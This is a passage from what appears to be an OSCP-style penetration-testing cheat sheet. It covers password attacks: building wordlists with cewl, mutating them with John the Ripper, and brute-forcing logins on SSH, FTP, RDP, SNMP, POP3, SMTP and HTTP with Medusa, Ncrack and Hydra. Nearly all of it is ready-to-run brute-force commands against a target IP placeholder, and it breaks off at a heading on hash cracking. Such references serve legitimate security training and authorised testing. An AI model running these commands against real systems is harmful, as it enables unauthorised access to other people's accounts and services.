     -   Password Profiling

        -   cewl can generate a password list from a web page  
            `cewl www.megacorpone.com -m 6 -w megacorp-cewl.txt`

    -   Password Mutating

        -   John the ripper can mutate password lists  
            nano /etc/john/john.conf  
            `john --wordlist=megacorp-cewl.txt --rules --stdout &gt; mutated.txt`

    -   Medusa

        -   Medusa, initiated against an htaccess protected web
            directory  
            `medusa -h $ip -u admin -P password-file.txt -M http -m DIR:/admin -T 10`

    -   Ncrack

        -   ncrack (from the makers of nmap) can brute force RDP  
            `ncrack -vv --user offsec -P password-file.txt rdp://$ip`

    -   Hydra

        -   Hydra brute force against SNMP  
            `hydra -P password-file.txt -v $ip snmp`

        -   Hydra FTP known user and password list  
            `hydra -t 1 -l admin -P /root/Desktop/password.lst -vV $ip ftp`

        -   Hydra SSH using list of users and passwords  
            `hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u $ip ssh`

        -   Hydra SSH using a known password and a username list  
            `hydra -v -V -u -L users.txt -p "&lt;known password&gt;" -t 1 -u $ip ssh`

        -   Hydra SSH Against Known username  
            `hydra $ip -s 62964 ssh -l &lt;user&gt; -P big\_wordlist.txt`

        -   Hydra POP3 Brute Force  
            `hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f $ip pop3 -V`

        -   Hydra SMTP Brute Force  
            `hydra -P /usr/share/wordlistsnmap.lst $ip smtp -V`

        -   Hydra attack http get 401 login with a dictionary  
            `hydra -L ./webapp.txt -P ./webapp.txt $ip http-get /admin`
            
        -   Hydra attack Windows Remote Desktop with rockyou
            `hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://$ip`
          

-   <span id="_bnmnt83v58wk" class="anchor"><span id="_Toc480741822" class="anchor"></span></span>Password Hash Attacks
    -------------------------------------------------------------------------------------------------------------------

    -   Online Password Cracking  
        [*https://crackstation.net/*](https://crackstation.net/)

    -   Hashcat running on
